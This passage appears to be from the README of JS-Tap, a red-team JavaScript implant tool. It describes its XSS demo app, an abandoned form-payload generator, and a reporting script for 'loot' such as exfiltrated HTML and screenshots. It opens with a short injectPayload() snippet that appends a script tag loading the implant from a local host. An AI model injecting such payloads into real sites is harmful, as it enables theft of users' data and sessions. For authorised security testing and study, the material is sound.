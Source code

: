 ```
function injectPayload()
{
	document.head.appendChild(Object.assign(document.createElement('script'),
		{src:'https://127.0.0.1:8444/lib/telemlib.js',type:'text/javascript'}));
}
```

### DefconApp
Another simple app similiar to the MonkeyPathApp, however the XHR API calls in this application makes a visible change in the application (changing the "defcon" level).<br>

It also has a **Inject Js-Tap payload** button that simulates and XSS exploit. All of the code is included in the **defconServer.py** file, including the JavaScript and HTML.<br>

This application is a good test for autogenerating payloads from intercepted XHR network calls. 

### formParser.py
Abandoned tool, is a good start on analyzing HTML for forms and parsing out their parameters. Intended to help automatically generate JavaScript payloads to target form posts. 

You should be able to run it on exfiltrated HTML files. Again, this is currently abandonware and has been superceded by the mimic feature that autogenerates custom payloads. 


### generateIntelReport.py
No longer working, used before the web UI for JS-Tap. The generateIntelReport script would comb through the gathered loot and generate a PDF report. Saving all the loot to disk is now disabled for performance reasons, most of it is stored in the datagbase with the exception of exfiltratred HTML code and screenshots. 




## Contact
@hoodoer<br>
hoodoer@bitwisemunitions.dev





